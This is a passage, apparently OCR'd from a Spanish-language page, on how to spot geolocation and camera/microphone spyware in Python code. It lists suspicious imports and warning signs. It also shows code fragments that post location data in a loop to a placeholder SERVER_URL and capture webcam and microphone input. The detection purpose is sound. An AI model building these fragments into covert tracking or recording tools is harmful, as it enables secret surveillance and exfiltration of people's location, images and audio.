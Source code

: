 - **`main()`:**
  - Ciclo de grabación/envío
  - Usa directorio temporal
  - Elimina archivos después de enviar
  - Espera 10 minutos entre grabaciones

---

### **Cómo Identificar Estos Malware en el Código**

#### **Para Virus de Geolocalización:**
1. **Importaciones sospechosas:**
   ```python
   import geocoder     # Geolocalización
   import requests     # Envío de datos
   ```

2. **Patrones de código:**
   ```python
   # Obtener ubicación por IP
   g = geocoder.ip('me')
   
   # Envío periódico de datos
   while True:
       # ... obtener ubicación ...
       requests.post(SERVER_URL, data=json.dumps(data))
       time.sleep(300)
   ```

3. **Señales de alerta:**
   - Uso de APIs de geolocalización
   - Envío de datos a servidores externos
   - Bucles con `time.sleep()` prolongados

#### **Para Spyware (Micrófono/Cámara):**
1. **Importaciones críticas:**
   ```python
   import cv2          # Cámara
   import pyaudio      # Micrófono
   import wave         # Manipulación de audio
   ```

2. **Patrones de código:**
   ```python
   # Acceso a cámara
   cap = cv2.VideoCapture(0)
   
   # Acceso a micrófono
   audio = pyaudio.PyAudio()
   stream = audio.open(format=pyaudio.paInt16, channels=2, rate=44100, input=True)
   
   # Grabación continua
   while recording:
       ret, frame = cap.read()
       frames.append(frame)
   ```
